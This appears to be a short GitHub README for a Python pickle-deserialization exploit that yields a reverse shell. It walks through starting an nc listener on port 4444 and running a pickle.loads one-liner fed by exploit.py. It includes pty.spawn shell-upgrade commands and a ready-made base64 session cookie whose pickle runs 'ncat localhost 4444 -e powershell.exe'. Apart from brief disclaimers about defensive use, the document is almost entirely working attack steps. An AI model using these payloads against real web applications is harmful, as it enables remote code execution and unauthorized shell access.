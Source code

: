 # Use wisely

In your terminal, run:
```
nc -nlvp 4444
```
Maybe "nc" doesn't work in your system and you should use "ncat"


In other computer run:
```
python3 -c "import pickle; pickle.loads($(python3 exploit.py))"
```
Note: Don't forget to change the host value

# Python 2
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

# Python 3
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

# exploit_rvs_web.py
In your terminal, run:
```
nc -nlvp 4444
```
Maybe "nc" doesn't work in your system and you should use "ncat"

Then run:
```
python3 exploit_rvs_web.py
```

And then in web console put the paste it in cookies, like:
```
document.cookie = 'session=gASVQAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjCVuY2F0IGxvY2FsaG9zdCA0NDQ0IC1lIHBvd2Vyc2hlbGwuZXhllIWUUpQu'
```

# Again:
Don't use it for malicious purposes, use it to make your system or your client's system more secure!